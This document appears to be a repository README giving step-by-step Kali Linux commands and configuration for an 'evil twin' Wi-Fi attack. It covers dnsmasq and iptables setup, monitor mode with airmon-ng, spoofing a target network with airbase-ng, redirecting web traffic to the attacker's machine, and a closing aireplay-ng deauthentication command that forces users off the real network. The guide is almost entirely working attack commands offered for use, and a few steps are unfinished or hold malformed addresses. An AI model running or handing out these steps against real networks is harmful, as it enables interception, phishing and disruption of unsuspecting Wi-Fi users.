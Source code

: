 How to Setup the Evil Network:
Follow this tutorial: https://www.yeahhub.com/evil-twin-attack-dnsmasq-wireless-wpa2-psk-cracking/

# Prerequisites
- kali linux
- may need an external usb wifi adapter

1. Update Device
	`sudo apt-get update`
	
2. Install dnsmasq
	`apt-get install dnsmasq`
	
3. Configure dns masq
	`mkdir /Desktop/eviltwin`
	`cd /Desktop/eviltwin`
	`touch dnsmasq.conf`
	Enter these details into dnsmasq.conf:
	```
	interface=at0
	dhcp-range=10.0.0.10,10.0.0.250,12h
	dhcp-option=3,10.0.0.1
	dhcp-option=6,10.0.0.1
	server=8.8.8.8
	log-queries
	log-dhcp
	listen-address=127.0.0.1
	```

4. Update NetworkManager.conf
	`vim /etc/NetworkManager/NetworkManager.conf`
	Add these lines to the end: 
	```
	[keyfile]
	unmanaged-devices:mac=AA:BB:CC:DD:EE:FF, A2:B2:C2:D2:E2:F2
	```

5. Connect the usb network adapter
	see that it is connected with: `iwconfig`
	It should be named wlan0 or wlan1

6. Enable the wireless adapter
	`ifconfig wlan1 up`

7. Put the wireless card into network mode with airmon-ng
	- if you don't have the aircrack suite, google it and install it: https://www.aircrack-ng.org/doku.php?id=install_aircrack

	All the tutorials said to listen to airmon and `run airmon-ng check kill` as some services can interfere. But this never worked for me. So I ignore that suggestion.

	run: `airmon-ng start wlan1` to put card into monitor mode

8. Find the device to spoof and record the BSSID (mac address), channel, and ESSID
	 first update known manufacturer mac addresses of routers: `airodump-ng-oui-update`
	`airodump-ng wlan1mon`
	Look under the ESSID column for the name of the network you want to spoof.
	When you see it hit `ctrl+c` and then copy that line to a text file

9. start up the evil twin AP (access point)
	Give the evil twin the same name as the network you are attacking for best results
	`airbase-ng -e "EvilTwinName" -c 11 wlan1mon`

10. Give the evil twin can access the internet.
	`ifconfig at0`
	give at0 an ip address: `ifconfig at0 10.0.0.1 up`

	### Alternative
	`ifconfig at0 192.168.129 netmask 255.255.255.128`
	`route add -net 192.168.128 netmask 255.255.255.128 gw 192.168.1.129`

11. route all traffic through at0, this has had limited success.
	```
	iptables --flush
	iptables --table nat --append POSTROUTING --out-interface wlan0 -j MASQUERADE
	iptables --append FORWARD --in-interface at0 -j ACCEPT```

	Alternate to forward stuff to our device:
	`iptables -t nat -A PREROUTING -p --dport 80 -j DNAT --to-destination [machine ip]:80`
	`iptables -t nat -A POSTROUTING -j MASQUERADE`
	If these commands give errors we can try to use a legacy version of iptables. do the following and then rerun the commands
	`sudo update-alternatives --config iptables`
	Select the `/usr/sbin/iptables-legacy 10 manual mode` option

12. enable port forwarding: `echo 1 > /proc/sys/net/ipv4/ip_forward`

13. evil twin is now setup, now need to allocate ip addresses to clients
	`dnsmasq -C /root/Desktop/dnsmasq.conf -d`

14. NOW startup the webserver, see the tutorial for more info

15. Finally run the deauthorization attack and kick people off the legit network onto ours
	- TODO will add details on this later too

16. now deauthorize clients so they connect to our network
	aireplay-ng –deauth 0 -a <BSSID> wlan0mon







